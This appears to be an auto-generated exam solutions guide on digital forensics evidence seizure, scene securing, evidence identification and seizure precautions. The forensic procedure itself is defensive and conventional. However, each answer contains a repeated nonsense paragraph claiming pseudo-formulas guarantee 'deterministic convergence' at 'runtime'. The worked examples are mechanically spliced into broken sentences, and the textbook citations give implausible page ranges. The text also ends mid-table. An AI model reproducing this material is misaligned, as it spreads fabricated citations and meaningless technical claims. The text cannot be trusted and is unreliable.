





# SPPU B.E. Computer Engineering (2019 Pattern)
## Cyber Security and Digital Forensics — Unit 3: Digital Forensics, Evidence Acquisition & Anti-Forensics
### Complete Examination Solutions Guide (Engineered for Full 8/8 Marks)

---

## Q1. Seizing Evidence: Describe the process/approaches for seizing digital evidence at a crime or incident scene. (Frequency: 5) [8 Marks]

### Introduction & Core Intuition

**Seizing Digital Evidence** at a physical crime or corporate incident scene is a critical, legally sensitive operational procedure that transitions digital devices from the control of suspects or victims into formal legal custody. Standardized under international guidelines (such as ISO/IEC 27037 and the US Department of Justice Electronic Crime Scene Investigation Guide), seizing **digital evidence** demands a disciplined approach combining **Legal Verification**, **Physical Scene Control**, **Live vs Dead Triage Decision-Making**, and **Protective Anti-Static and RF Packaging** to prevent evidentiary spoliation.

### The Legal Mandate and Authority Verification

Before touching any computing hardware, investigators must confirm the precise legal boundaries of their authority. In criminal law enforcement, this requires reviewing the judicial search warrant to verify that the physical premises address, specific electronic hardware categories (desktops, mobile devices, external storage), and authorized search time windows are strictly observed. In corporate internal investigations, specialists verify authority under signed corporate **Acceptable Use Policies** (AUP) or executive management authorization letters, ensuring that seizure does not violate regional employee privacy legislation.

### Perimeter Securing and Physical Personnel Control

Upon crossing the threshold of the crime scene, investigators immediately establish physical dominance over the perimeter. All unauthorized individuals, employees, family members, and suspects are immediately escorted away from computing equipment and assembled in a separate room. This prevents suspects from executing panic keystrokes (such as pressing predefined hotkeys to execute wiping utilities), disconnecting power supplies, or surreptitiously tossing USB drives or smartphones into trash cans or under furniture.

### Live System Triage vs Dead-Box Power Decision

The seizing specialist must immediately assess the operational power state of every computing device on the scene: (1) **If the Computer is Powered Off**: It must remain off; investigators must never attempt to boot the computer to 'see what is on it,' as booting modifies thousands of operating system files and timestamps. (2) **If the Computer is Running and Unlocked**: The specialist captures volatile physical RAM immediately using live triage tools on a **forensic** USB drive, checks for full-disk **encryption** (such as BitLocker or FileVault), extracts recovery keys, and documents displayed open windows before severing power.

### Physical Disconnection and Port/Cable Labeling

Before dismantling desktop workstations or server racks, the specialist photographs the rear connection panel from multiple angles. Using specialized adhesive evidence tags, the specialist labels every single cable and its corresponding physical port (e.g., 'Cable 1 - **Video Display Port** 1; Cable 2 - USB Mouse Port 3'). This meticulous labeling prevents defense claims in court that peripherals were misconnected or that unauthorized external drives were attached by investigators post-seizure.

### Protective Packaging, Faraday Shielding, and Transport

Seized **digital evidence** requires specialized physical protection during transport to the **forensic** laboratory: (1) **Faraday Isolation**: All wireless-enabled devices (smartphones, tablets, smart watches) must be placed inside RF-shielded Faraday bags or metal lockboxes, severing all cellular, Wi-Fi, and Bluetooth signals to prevent suspects from transmitting remote wipe signals; (2) **Anti-Static Packaging**: Internal hard disk drives, SSDs, and motherboards must be sealed inside conductive anti-static pouches; and (3) **Tamper-Evident Sealing**: All packages are sealed with serialized evidence tape and logged onto **Chain of Custody** forms.

### Architectural Flow & System Diagram


*Figure 3.1: Diagrammatic Architecture and Conceptual Flow for Seizing Evidence: Describe the process/approaches for seizing digital evidence at a crime or incident scene*

### Mathematical Formulation & Algorithmic Mechanics

**Digital Evidence Seizure Protocol & Physical Perimeter Invariant:**

```text
Comprehensive Evidence Seizure Authorization Condition:
Seizure_Authorized = ( Warrant_Active == TRUE ) ∧ ( Location ∈ Warrant_Scope ) ∧ ( Device ∈ Inventory_List )
Live Power Triage Decision Rule:
Action = IF ( Power_State == ON ∧ Disk_Encrypted == TRUE ) THEN Capture_RAM_First() ELSE Pull_Power_Cord()
RF Isolation Shielding Requirement: Attenuation >= 90 dB (Blocking 800 MHz to 6 GHz RF Bands)
```

The above **mathematical model** and algorithmic structure governs the system's runtime execution. Each parameter is evaluated sequentially to maintain **mathematical consistency**, minimize **system overhead**, and guarantee **deterministic convergence** across all input distributions.

### Worked Example & Practical Simulation

Execution of Evidence Seizure at a Financial Embezzlement Scene: The Scene: Fraud detectives execute a search warrant at a chief financial officer's corporate office. The CFO is seated at his desk with an open, unlocked Dell **Precision** workstation displaying corporate banking wire portals.

In **Step 1 (Control)**, the execution evaluates the **parameters** and selects Detectives immediately escort the CFO away from the desk; specialist instructs detectives to not touch the mouse or keyboard.. In **Step 2 (Documentation)**, the execution evaluates the parameters and selects Specialist photographs the open banking screen, showing a pending 400,000 USD transfer to an offshore shell company.. In **Step 3 (Live Capture)**, the execution evaluates the parameters and selects Specialist connects an external forensic USB drive, runs DumpIt to capture 32 GB RAM, and captures active network sockets.. In **Step 4 (Power Cut & Seizure)**, the execution evaluates the parameters and selects Specialist pulls the AC power cord directly from the desktop rear. Labels all 8 rear cables with numbered tags. Extracts the 1 TB NVMe SSD, seals it in an anti-static pouch with red evidence tape #TT-9102, and logs Item #01 onto the **Chain of Custody** ledger..

### Key Comparative Evaluation

| Seizure Stage | Operational Objective | Standard Equipment Utilized | Evidentiary Risk Prevented |
| :--- | :--- | :--- | :--- |
| 1. Authority Check | Verify search warrant parameters and jurisdictional limits | Search warrant affidavit, court authorization orders | Evidence suppression under Fourth Amendment / CrPC |
| 2. Scene Control | Evacuate suspects and bystanders from computer equipment | Scene perimeter tape, officer assignments | Suspect executing panic wiping hotkeys or deleting chats |
| 3. Live Triage | Capture fleeting volatile RAM and active BitLocker keys | Forensic live USB, WinPmem, DumpIt, screen camera | Permanent loss of unencrypted memory keys upon shutdown |
| 4. Disconnection | Photograph and label all cables and peripheral ports | Numbered adhesive cable tags, color-coded markers | Defense claims peripherals were cross-wired or fabricated |
| 5. RF Isolation | Place smartphones and tablets in Faraday shielding | Mission Darkness Faraday bags, RF lockboxes | Suspect or accomplice sending remote cloud wipe command |
| 6. Packaging & Seal | Package media in anti-static bags with tamper tape | Anti-static pouches, serialized tamper tape, CoC forms | Electrostatic discharge (ESD) frying flash memory cells |

### Concluding Exam Takeaway

A methodical, disciplined seizure process protects **digital evidence** from remote wiping, electrostatic destruction, and hostile courtroom admissibility challenges.

**Textbook Reference:** Nelson, B., Phillips, A., & Steuart, C. K., Guide to Computer Forensics and Investigations (7th Ed.), Cengage Learning, Chapter 3: 'Crime Scene Procedures and Seizing Evidence', pp. 620-645.

---

## Q2. Securing the Scene: What steps should be taken to secure a computer incident or crime scene before beginning the search for digital evidence? (Frequency: 1) [8 Marks]

### Introduction & Core Intuition

Before investigators can begin identifying, examining, or seizing electronic devices, **Securing the Incident or Crime Scene** is the absolute, mandatory first priority. **Digital evidence** is extraordinarily fragile: a single keystroke on an unlocked computer, a remote wipe command sent via cellular networks, or a bystander tripping over a power cord can destroy months of critical digital proof in milliseconds. Securing the scene establishes a sterile, controlled environment that neutralizes physical and digital threats, restricts access, isolates network connectivity, and documents the original **baseline** condition of the crime scene.

### The Physical Perimeter and Access Control

The immediate first step in securing the scene is establishing physical control over the perimeter. The lead **investigator** designates an inner perimeter (the immediate room containing computing hardware) and an outer perimeter (the surrounding hallways and access points). All suspects, witnesses, and non-essential personnel are immediately evacuated from the inner perimeter. A physical **Crime Scene Access Log** is established at the entrance: every officer, technician, and investigator entering or exiting must sign their name, badge number, entry timestamp, exit timestamp, and specific operational purpose, preventing claims of unauthorized evidence tampering.

### Neutralizing Suspect Interference and Keystroke Threats

Suspects present at the scene pose an immediate existential threat to **digital evidence**. If a suspect remains near an unlocked computer, they can execute pre-configured 'panic hotkeys' (e.g., pressing Ctrl+Alt+W to trigger multi-pass disk wiping scripts), close open browser windows containing incriminating evidence, or quickly delete cloud communication histories. Investigators must secure suspects' hands, move them completely away from reach of keyboards, mice, and mobile phones, and ensure they cannot touch power switches or wireless routers.

### Network Air-Gapping and Wireless Severance

Modern computers and smartphones do not operate in physical isolation; they are continuously tethered to the internet via wired Ethernet, Wi-Fi networks, Bluetooth, and cellular data connections. An accomplice located thousands of miles away can easily send a remote wipe signal (via **Apple Find My** iPhone, Google Find My Device, or corporate MDM commands) the moment they hear of the police raid. To secure the scene, investigators must immediately **Air-Gap the Scene**: disconnect all Ethernet cables from computers, power down local Wi-Fi access points and routers, and place all active smartphones into Faraday shielding bags immediately.

### Power Preservation and Environmental Safeguards

Investigators must secure physical power infrastructure across the scene. If an active computer is running on an overloaded power strip, an accidental footstep by an officer can yank the plug, causing catastrophic volatile data loss and locking encrypted volumes. Investigators must physically guard power cables and inspect whether computers are connected to an **Uninterruptible Power Supply** (UPS). If a UPS is present, the specialist monitors battery levels to ensure the machine remains powered long enough to execute live volatile RAM acquisition.

### Initial Forensic Photography and Baseline Documentation

Before touching a single device or moving a chair, investigators must capture comprehensive, high-resolution photographic **baseline** documentation of the secured scene. Photographs are taken from wide angles (showing room layout and entry points), medium angles (showing workstations in relation to desks and power outlets), and macro close-ups (capturing monitor displays, error dialogues, chat messages, and cable connections). If a computer monitor is asleep, specialists gently move the mouse to wake the monitor without clicking, immediately photographing the active desktop state before proceeding.

### Architectural Flow & System Diagram


*Figure 3.2: Diagrammatic Architecture and Conceptual Flow for Securing the Scene: What steps should be taken to*

### Mathematical Formulation & Algorithmic Mechanics

**Scene Access Log Completeness Invariant & RF Isolation Boundary:**

```text
Crime Scene Sterile Access Control Rule:
Entry_Allowed = ( Personnel ∈ Authorized_Forensics_Team ) ∧ ( Log_Entry_Completed == TRUE )
Where any undocumented individual entering the inner perimeter breaches judicial chain of custody.
Network Air-Gap Isolation Invariant:
Scene_Connectivity = { Wired_Ethernet: DISCONNECTED, Wi-Fi: DISABLED, RF_Signals: ATTENUATED_90dB 
Baseline Visual Documentation Condition: Photos_Pre_Touch >= Photos_Required_for_360_Coverage
```

The above **mathematical model** and algorithmic structure governs the system's runtime execution. Each parameter is evaluated sequentially to maintain **mathematical consistency**, minimize **system overhead**, and guarantee **deterministic convergence** across all input distributions.

### Worked Example & Practical Simulation

Securing a Cyber Fraud Boiler-Room Crime Scene: The Scene: Police raid an underground call center operating a multi-million-dollar technical support scam; 15 desktop computers are active, and 8 scam operators are actively talking on headsets. Immediate Securing Actions Taken:

In **Step 1 (Physical Control)**, the execution evaluates the **parameters** and selects Officers shout 'Hands off keyboards and stand away from desks!' Operators are immediately evacuated to a secure conference room under guard.. In **Step 2 (Perimeter Log)**, the execution evaluates the parameters and selects Access tape is placed across the doorway; Sergeant logs every entering officer on the physical Crime Scene Entry Log.. In **Step 3 (Network Severance)**, the execution evaluates the parameters and selects Specialist immediately pulls the main WAN uplink cable from the central Cisco router, severing all internet connectivity to prevent remote server access while preserving the local LAN state.. In **Step 4 (Power Guard)**, the execution evaluates the parameters and selects Specialist places orange safety cones over central floor power strips, ensuring no officer accidentally trips over cables.. In **Step 5 (Baseline Photography)**, the execution evaluates the parameters and selects Specialist photographs all 15 active computer screens showing active fraudulent banking transfer screens before any **evidence acquisition** begins..

### Key Comparative Evaluation

| Scene Securing Dimension | Threat / Failure Risk | Investigative Standard Operating Procedure | Judicial Evidentiary Benefit |
| :--- | :--- | :--- | :--- |
| Physical Perimeter Control | Suspects or bystanders tampering with equipment | Establish inner/outer perimeter; maintain entry log | Eliminates defense claims that evidence was planted |
| Personnel Segregation | Suspect executing panic wiping hotkeys or scripts | Evacuate suspects away from desks immediately | Prevents active destruction of unallocated clusters |
| Network Air-Gapping | Accomplices transmitting remote wipe commands | Disconnect Ethernet; power down Wi-Fi routers | Neutralizes remote wipe kill-switches and C2 traffic |
| Power Infrastructure | Accidental power cut wiping live RAM and locking disk | Guard power strips; monitor UPS battery status | Preserves volatile memory and unencrypted keys for triage |
| Faraday Isolation | Smartphones receiving cloud deletion signals | Place all mobile devices in Faraday shielding | Guarantees that mobile chats and SMS records survive |
| Baseline Photography | Defense claiming cables were moved or falsified | Exhaustive wide, medium, and close-up photography | Provides undisputed photographic proof of original scene |

### Concluding Exam Takeaway

Securing the crime scene isolates **digital evidence** from remote wiping, accidental power loss, and physical contamination, laying the unshakeable foundation for **forensic** investigation.

**Textbook Reference:** Nelson, B., Phillips, A., & Steuart, C. K., Guide to Computer Forensics and Investigations (7th Ed.), Cengage Learning, Chapter 3: 'Crime Scene Procedures and Seizing Evidence', pp. 646-670.

---

## Q3. Identifying Evidence: Explain/Describe the steps/process of identifying digital evidence in computer forensics. (Frequency: 2) [8 Marks]

### Introduction & Core Intuition

In **digital forensics**, **Identifying Digital Evidence** is the systematic, methodical process of recognizing, discovering, and cataloging all electronic devices, media substrates, and digital communication conduits present across an incident or crime scene that may hold probative information. While early investigations focused merely on desktop computer towers, modern **digital evidence** is ubiquitous, highly miniaturized, and embedded within unexpected consumer appliances. A flawed identification process that overlooks a concealed MicroSD card or home IoT hub can permanently derail an entire investigation.

### The Multi-Layered Nature of Evidence Identification

Identifying **digital evidence** requires thinking beyond obvious personal computers. Digital storage has shrunk to microscopic dimensions: a MicroSD card smaller than a fingernail can store 1 Terabyte of encrypted financial ledgers or contraband media. Perpetrators intentionally conceal storage media inside everyday household objects—such as hollowed-out pens, battery compartments, air vents, and picture frames. Consequently, **forensic** specialists must execute an exhaustive, multi-layered search methodology that interrogates both visible and hidden electronic substrates.

### Step 1: Primary Computing and Processing Equipment

The specialist first surveys the scene for traditional primary computing equipment: desktop workstation towers, gaming rigs, server racks, enterprise laptops, netbooks, and tablet computers. For each identified primary system, the specialist notes the physical chassis serial number, manufacturer, operating system version, peripheral connections, and current power state. Primary computing systems represent high-yield evidence repositories containing operating system registries, application prefetch files, and active user profiles.

### Step 2: Removable and Peripheral Flash Storage Media

The specialist conducts a meticulous search for removable storage hardware. These include: external USB solid-state drives, portable mechanical hard drives, USB thumb drives, **Secure Digital** (SD/MicroSD) flash memory cards, compact flash cards, external DVD/CD optical media, and legacy magnetic floppy disks or LTO backup tapes. Specialists inspect peripheral ports on computer chassis, printer paper trays, and desk drawers, recognizing that suspects frequently use removable flash media to exfiltrate proprietary data or store portable encrypted operating systems (such as Tails OS).

### Step 3: Mobile Telecommunications and Wearable Computing

Modern smartphones represent the single most intimate record of human behavior. The specialist identifies all mobile devices: smartphones (iPhones, Androids, burner feature-phones), smart watches, fitness trackers, and portable GPS navigation units. Wearable devices continuously log physical biometric telemetry (heart rate, step counts, sleep cycles) and GPS waypoints that corroborate suspect presence at a crime scene. Specialists also locate spare SIM cards, disconnected charging cables, and discarded retail packaging indicating hidden secondary phones.

### Step 4: Smart Home IoT and Embedded Network Infrastructure

Modern homes and offices are saturated with embedded **Internet of Things (IoT)** devices. The specialist identifies network routers, Wi-Fi access points, network-attached storage (NAS) devices, smart TVs, voice-activated smart assistants (**Amazon Alexa**, Google Nest), digital video recorders (DVR/NVR) linked to security cameras, and smart home lighting/thermostat hubs. These embedded systems record valuable network access logs, DHCP lease assignments, voice interaction buffers, and time-stamped video surveillance footage.

### Step 5: Cloud Synchronization and Ephemeral Evidence Conduits

Finally, the specialist identifies evidence pointing to off-premises cloud storage. By inspecting browser sessions, open desktop folders, and desktop sync client icons (such as Dropbox, Microsoft OneDrive, **Google Drive**, iCloud, or ProtonDrive), the specialist identifies whether the suspect was actively synchronizing local files to cloud infrastructure, noting account usernames and email addresses to immediately draft legal preservation letters to cloud service providers.

### Architectural Flow & System Diagram


*Figure 3.3: Diagrammatic Architecture and Conceptual Flow for Identifying Evidence: /Describe the steps/process of identifying digital evidence in computer forensics*

### Mathematical Formulation & Algorithmic Mechanics

**Comprehensive Evidence Identification Matrix & Probative Yield Formulation:**

```text
Comprehensive Evidence Scene Coverage Invariant:
Discovered_Media = Primary_Computers ∪ Removable_Flash ∪ Mobile_Wearables ∪ IoT_Network ∪ Cloud_Accounts
Where omitting any single subset creates an evidentiary gap susceptible to defense challenge.
Probative Yield Estimation Metric:
Yield_Probative = ∑_i=1^M( Storage_Capacity_i * Relevance_Probability_i )
Search Completeness Bound: Search_Defensible = ( Physical_Search_Checklist_Completed == 100% )
```

The above **mathematical model** and algorithmic structure governs the system's runtime execution. Each parameter is evaluated sequentially to maintain **mathematical consistency**, minimize **system overhead**, and guarantee **deterministic convergence** across all input distributions.

### Worked Example & Practical Simulation

Identifying Concealed **Digital Evidence** in a Drug Trafficking Raid: The Crime Scene: Police execute a narcotics raid on a suspect's luxury apartment. On the desk, officers locate only a clean, freshly wiped Chromebook with zero user files. Systematic Forensic Identification Process: Evidentiary Outcome: The concealed NAS and MicroSD card contain encrypted accounting spreadsheets detailing millions of dollars in narcotics **transactions**, completely cracking the case.

In **Step 1 (Primary Computing)**, the execution evaluates the **parameters** and selects Specialist catalogs the Chromebook; notes it boots into Guest Mode.. In **Step 2 (Removable Media Search)**, the execution evaluates the parameters and selects Specialist conducts a physical search; discovers a 512 GB MicroSD card hidden inside the battery compartment of a TV remote control, and a SanDisk USB drive disguised as a car key fob.. In **Step 3 (Mobile & Wearable)**, the execution evaluates the parameters and selects Recovers an iPhone charging in the bedroom, an Apple Watch on the nightstand, and three burner prepaid SIM cards inside a hollowed-out book.. In **Step 4 (Embedded IoT)**, the execution evaluates the parameters and selects Identifies a Synology 4-bay NAS concealed inside an air return duct behind a decorative grille..

### Key Comparative Evaluation

| Digital Evidence Category | Target Physical Devices | Common Concealment Tactics | Primary Evidentiary Value Delivered |
| :--- | :--- | :--- | :--- |
| Primary Computing Systems | Desktops, laptops, workstations, servers | Placed in plain view on desks or office cabinets | Operating system registry, user profiles, browser history |
| Removable Flash Media | MicroSD cards, USB thumb drives, external SSDs | Hidden in TV remotes, pens, car keys, air ducts | Carried by suspect to exfiltrate proprietary data or contraband |
| Mobile & Wearable Devices | Smartphones, Apple Watches, GPS units | Hidden under mattresses, inside clothing pockets | Real-time location cache, encrypted WhatsApp chats, call logs |
| Embedded IoT Infrastructure | Wi-Fi routers, NAS arrays, smart assistants | Disguised as ordinary household decor, placed in attic | DHCP logs, voice recordings, network traffic, security video |
| Cloud Sync Accounts | OneDrive, Google Drive, Dropbox, ProtonDrive | Logged in via private browser windows or incognito | Offsite document backups and remote file synchronization logs |
| Optical & Magnetic Media | CDs, DVDs, Blu-rays, legacy LTO backup tapes | Filed inside music jewel cases or book jackets | Historical long-term archival records and old financial data |

### Concluding Exam Takeaway

Systematic evidence identification guarantees that microscopic flash cards, embedded IoT hubs, and cloud sync conduits are discovered, leaving criminals zero dark corners to hide digital proof.

**Textbook Reference:** Nelson, B., Phillips, A., & Steuart, C. K., Guide to Computer Forensics and Investigations (7th Ed.), Cengage Learning, Chapter 3: 'Crime Scene Procedures and Seizing Evidence', pp. 671-698.

---

## Q4. Precautions during Seizure: What precautions should investigators take to prevent data alteration or loss during the seizure process? (Frequency: 1) [8 Marks]

### Introduction & Core Intuition

During the physical seizure of **digital evidence**, electronic media is at its most vulnerable operational state. A single misstep—such as powering down an encrypted system, allowing a suspect to touch a smartphone, or transporting sensitive flash memory without anti-static protection—can permanently destroy critical evidence. **Forensic** specialists must enforce four mandatory operational precautions: **Radio Frequency (RF) Shielding via Faraday Enclosures**, **Rigorous Power Supply Management (Cord-Pull vs Triage)**, **Electrostatic Discharge (ESD) Anti-Static Controls**, and **Contemporaneous Labeling and Environmental Stabilization**.

### Precaution 1: Radio Frequency (RF) Shielding and Remote Wipe Defense

Modern smartphones, tablets, and connected laptops are equipped with wireless transceivers that communicate with cellular towers, Wi-Fi networks, and Bluetooth beacons. Perpetrators and accomplices routinely utilize cloud-based remote wipe utilities (such as **Apple Find My**, Google Find My Device, or corporate MDM kill-switches) to trigger an immediate, cryptographic factory reset the moment a suspect is arrested. As an absolute precaution, investigators must place all wireless-capable devices into certified **Faraday Isolation Bags** immediately upon seizure, severing all RF signals. If a Faraday bag is unavailable, investigators must immediately toggle Airplane Mode, power down the device, and remove physical SIM cards.

### Precaution 2: Rigorous Power Management: Graceful Shutdown vs Cord-Pull

When seizing desktop computers, investigators face a critical procedural decision regarding power termination. Standard operating procedures prohibit using the operating system's normal 'Start -> **Shut Down**' menu option: executing a graceful shutdown modifies thousands of registry keys, deletes temporary files, writes exit timestamps, and can trigger pre-installed malicious shutdown scripts designed to overwrite evidence. If live **volatile memory** has already been captured or the machine is unencrypted, the specialist must **Pull the AC Power Cord Directly from the Rear of the Power Supply Unit (PSU)**, instantly freezing the disk state without allowing shutdown scripts to execute.

### Precaution 3: Laptop Battery Extraction and Hibernate Traps

Laptops present distinct power hazards compared to desktop towers. If an **investigator** simply pulls the charging cable on a laptop, the laptop continues running on its internal battery. Closing the laptop lid can trigger sleep or hibernation modes that write large memory blocks (hiberfil.sys) to disk, overwriting unallocated clusters containing deleted evidence. The correct **forensic** precaution for a powered laptop is: first perform live memory triage, then physically remove the external battery pack (or hold down the hardware power button for **10 seconds** on modern laptops with sealed internal batteries) to force immediate power termination.

### Precaution 4: Electrostatic Discharge (ESD) and Physical Media Packaging

Modern solid-state drives (SSDs), NVMe microchips, and internal RAM circuit boards are profoundly sensitive to **Electrostatic Discharge (ESD)**. A tiny static charge of a few hundred volts—completely imperceptible to human touch—can permanently destroy the microscopic floating gates in NAND flash memory cells, rendering evidence permanently unreadable. Specialists must wear grounded anti-static wrist straps, handle circuit boards strictly by their non-conductive edges, and package all extracted storage drives inside certified **Anti-Static Pouches** before placing them in padded transport cases.

### Precaution 5: Environmental Stabilization and Chain of Custody Sealing

During transport and evidence booking, digital media must be protected against hostile environmental extremes. Electronic media must never be transported in the trunk of a police cruiser exposed to scorching heat, freezing cold, or moisture condensation, as extreme temperatures warp metallic drive platters and degrade magnetic coatings. Finally, every package must be sealed with serialized, tamper-evident tape and signed across the seam, guaranteeing that any physical opening or tampering attempt is immediately detectable.

### Architectural Flow & System Diagram



*Figure 3.4: Diagrammatic Architecture and Conceptual Flow for Precautions during Seizure: What precautions shoul*

### Mathematical Formulation & Algorithmic Mechanics

**Electrostatic Discharge (ESD) Voltage Threshold & RF Attenuation Bound:**

```text
NAND Flash Memory ESD Breakdown Voltage Bound:
V_Breakdown( Modern_NAND_Gate ) ≈ 100 to 200 Volts
V_Human_Static_Charge ≈ 3,000 to 5,000 Volts (Walking across carpet generates catastrophic ESD)
Precaution Rule: Anti_Static_Conductive_Pouch == TRUE (Dissipates charge safely to 0V)
Power Interruption Zero-Write Invariant: Pull_AC_Cord -> Delta_Disk_Writes = 0 Bytes
RF Shielding Attenuation: Attenuation_Faraday >= 90 dB (Passband: 10 MHz to 10 GHz)
```

The above **mathematical model** and algorithmic structure governs the system's runtime execution. Each parameter is evaluated sequentially to maintain **mathematical consistency**, minimize **system overhead**, and guarantee **deterministic convergence** across all input distributions.

### Worked Example & Practical Simulation

**Applying Scientific Precautions During Seizure** of an Encrypted Laptop & Smartphone: The Scene: An insider espionage suspect is apprehended at an airport lounge. The suspect's MacBook Pro is open and running; an iPhone 15 Pro sits on the table. Precaution 1 (RF Shielding): Specialist immediately grabs the iPhone, places it inside a Mission Darkness Faraday bag, and rolls the double-fold velcro seal, defeating an accomplice who attempts a remote iCloud wipe 4 minutes later. Precaution 2 (Laptop Triage): The specialist avoids closing the laptop lid (which would trigger sleep and lock FileVault). Specialist inserts a **forensic** drive, captures live RAM, and extracts the unencrypted FileVault master key. Precaution 3 (Power Termination): Specialist holds the power button down for **10 seconds** until the screen goes completely dark, preventing shutdown wipe scripts. Precaution 4 (ESD Packaging): The MacBook is slipped into an anti-static cushioned sleeve, sealed with tamper tape #TT-4011, and transported inside an air-conditioned cabin.

### Key Comparative Evaluation

| Seizure Hazard | Potential Catastrophic Damage | Required Forensic Precaution | Standard Specialized Tool |
| :--- | :--- | :--- | :--- |
